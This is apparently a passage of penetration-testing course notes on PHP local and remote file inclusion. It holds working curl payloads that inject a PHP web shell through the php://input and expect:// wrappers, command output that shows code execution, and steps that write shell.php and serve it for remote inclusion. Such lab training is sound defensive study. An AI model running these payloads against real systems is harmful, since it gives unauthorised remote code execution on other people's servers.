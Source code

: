```shell
NolanCarougeHTB@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

Finally, we may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams.

```shell
NolanCarougeHTB@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect

extension=expect
```

```shell
NolanCarougeHTB@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Remote File Inclusion (RFI) : 

When a vulnerable function allows us to include remote files, we may be able to host a malicious script, and then include it in the vulnerable page to execute malicious functions and gain remote code execution.

Any remote URL inclusion in PHP would require the `allow_url_include` setting to be enabled.

```shell
NolanCarougeHTB@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

However, this may not always be reliable, as even if this setting is enabled, the vulnerable function may not allow remote URL inclusion to begin with. A more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to `try and include a URL`, and see if we can get its content.

```
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

### HTTP : 

The first step in gaining remote code execution is creating a malicious script in the language of the web application.

```shell
NolanCarougeHTB@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, we can start a server on our machine with a basic python server with the following command, as follows : 

```shell
NolanCarougeHTB@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
```
